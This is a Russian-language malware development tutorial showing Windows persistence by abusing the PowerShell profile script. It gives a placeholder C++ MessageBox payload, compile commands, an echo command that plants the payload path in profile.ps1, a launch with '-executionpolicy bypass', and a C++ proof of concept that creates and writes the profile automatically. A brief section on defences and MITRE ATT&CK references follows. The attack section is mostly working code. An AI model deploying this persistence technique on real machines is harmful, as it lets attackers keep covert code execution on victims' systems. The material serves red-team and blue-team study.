\newpage
\subsection{77. Разработка вредоносного ПО: закрепление (persistence) - часть 11. Профиль PowerShell. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}    

Этот пост является результатом моего собственного исследования одного из интересных методов закрепления вредоносного ПО: через профиль PowerShell.    

### профиль PowerShell

Профиль PowerShell - это скрипт PowerShell, который позволяет системным администраторам и пользователям настраивать свою среду и выполнять определённые команды при запуске сессии Windows PowerShell.     

Скрипт профиля PowerShell хранится в папке `WindowsPowerShell`:    

{width="80%"}    

Добавим следующий код в файл профиля текущего пользователя, который будет выполняться при каждом запуске консоли PowerShell пользователем:

`Z:\2022-09-20-malware-pers-11\hack.exe`    

Я продемонстрирую этот метод на практическом примере, чтобы всё стало понятно.    

### практический пример

Сначала создадим наш "вредоносный" файл:     

```cpp
/*
hack.cpp
вредоносное приложение для Windows
закрепление через профиль PowerShell
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/20/malware-pers-11.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Как обычно, это просто "meow-meow" messagebox.    

Компилируем:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

Запускаем на машине жертвы для проверки корректности:    

{width="80%"}    

Теперь применяем этот простой "трюк":   

```powershell
echo Z:\2022-09-20-malware-pers-11\hack.exe > \
"%HOMEPATH%\Documents\windowspowershell\profile.ps1"
```

И наконец, запускаем PowerShell:    

```powershell
powershell -executionpolicy bypass
```

{width="80%"}    

{width="80%"}    

Как видно, наш вредоносный код выполняется при запуске PowerShell, и родительским процессом для messagebox является PowerShell. =^..^=    

Я создал простой PoC-код для автоматизации этого процесса:    

```cpp
/*
pers.cpp
windows persistence via Powershell profile
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/20/malware-pers-11.html
*/
#include <windows.h>
#include <stdio.h>
#include <strsafe.h>
#include <iostream>

int main(int argc, char* argv[]) {
  char path[MAX_PATH];
  char *homepath = getenv("USERPROFILE");
  char pspath[] = "\\Documents\\windowspowershell";
  char psprofile[] = "\\profile.ps1";
  char evil[] = "Z:\\2022-09-20-malware-pers-11\\hack.exe";
  DWORD evilLen = (DWORD)strlen(evil);

  StringCchCopy(path, MAX_PATH, homepath);
  StringCchCat(path, MAX_PATH, pspath);
  BOOL wd = CreateDirectoryA(path, NULL);
  if (wd == FALSE) {
    printf("unable to create dir: %s\n", path);
  } else {
    printf("successfully create dir: %s\n", path);
  }

  StringCchCat(path, MAX_PATH, psprofile);
  HANDLE hf = CreateFile(
    path,
    GENERIC_WRITE,
    0,
    NULL,
    CREATE_NEW,
    FILE_ATTRIBUTE_NORMAL,
    NULL
  );

  if (hf == INVALID_HANDLE_VALUE) {
    printf("unable to create file: %s\n", path);
  } else {
    printf("successfully create file: %s\n", path);
  }

  BOOL wf = WriteFile(hf, evil, evilLen, NULL, NULL);
  if (wf == FALSE) {
    printf("unable to write to file %s\n", path);
  } else {
    printf("successfully write to file evil path: %s\n", evil);
  }

  CloseHandle(hf);
  return 0;
}
```

Логика проста: этот скрипт просто создает папку профиля, если ее нет, затем создает файл профиля и обновляет его.    

### демонстрация

Давайте посмотрим, как это работает. Компилируем наш PoC:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

Запускаем его на машине жертвы:    

```powershell
.\pers.exe
```

{width="80%"}    

{width="80%"}    

А теперь запускаем сеанс PowerShell:        

{width="80%"}    

Если проверим через Process Hacker:     

{width="80%"}    

`powershell.exe` снова является родительским процессом, как и ожидалось.     

Как видно, всё работает идеально! =^..^=    

Однако есть один нюанс. Если PowerShell запускается без режима обхода политики выполнения, этот метод закрепления не сработает:    

{width="80%"}    

Кроме того, существует четыре места, в которых можно злоупотребить профилем PowerShell, в зависимости от имеющихся привилегий:   

```powershell
$PROFILE | select *
```

{width="80%"}    

Хранение произвольных инструкций в скрипте профиля PowerShell предоставляет множество возможностей для выполнения кода. Чтобы избежать зависимости от запуска PowerShell пользователем, можно использовать запланированное задание, которое запускает PowerShell в определённое время.      

### способы защиты

Принудительное выполнение только подписанных PowerShell-скриптов. Подписывайте профили, чтобы избежать их модификации. Также можно полностью отказаться от профилей PowerShell, если они не нужны, используя флаг `-No-Profile`.    

Этот метод закрепления используется группой [Turla](https://attack.mitre.org/groups/G0010/) в реальных атаках.    

Надеюсь, этот пост поможет специалистам синей команды лучше понять данную технику и добавит новый инструмент в арсенал красных команд.

[Microsoft PowerShell profiles](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_profiles?view=powershell-7.2)       
[MITRE ATT&CK. Event Triggered Execution: PowerShell Profile](https://attack.mitre.org/techniques/T1546/013/)     
[Turla](https://attack.mitre.org/groups/G0010/)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-09-20-malware-pers-11)    
